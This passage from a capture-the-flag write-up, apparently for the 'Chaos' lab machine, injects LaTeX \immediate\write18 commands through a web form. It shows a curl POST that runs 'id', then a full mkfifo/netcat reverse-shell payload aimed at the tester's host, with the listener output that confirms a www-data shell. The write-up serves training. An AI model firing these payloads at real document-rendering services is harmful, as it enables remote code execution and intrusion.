 [This post](https://0day.work/hacking-with-latex/) goes into methods to
exploit LaTeX if the `\write18` construct is enabled, which is
referenced on the second line of the log output:



     \write18 enabled.



This construct allows writing to the 18th file descriptor, which by
default is the command line. So if LaTeX is passed something of the
following format, it will run the command:



    \immediate\write18{[command]}



For example, the following POST gives me the `id` output (piped into
`grep` to get rid of most of the output):



    root@kali# curl -s -X POST -d "content=%5Cimmediate%5Cwrite18%7Bid%7D&template=test3" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php | grep uid
    (/usr/share/texlive/texmf-dist/tex/latex/latexconfig/epstopdf-sys.cfg))uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Shell

From here, it's pretty easy to get a shell:



    root@kali# curl -X POST -d "content=%5Cimmediate%5Cwrite18%7Brm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.14 443 >/tmp/f%7D&template=test3" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php





    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.120.
    Ncat: Connection from 10.10.10.120:34222.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    $ hostname
    chaos



## Privesc: www-data --\> ayush

### su

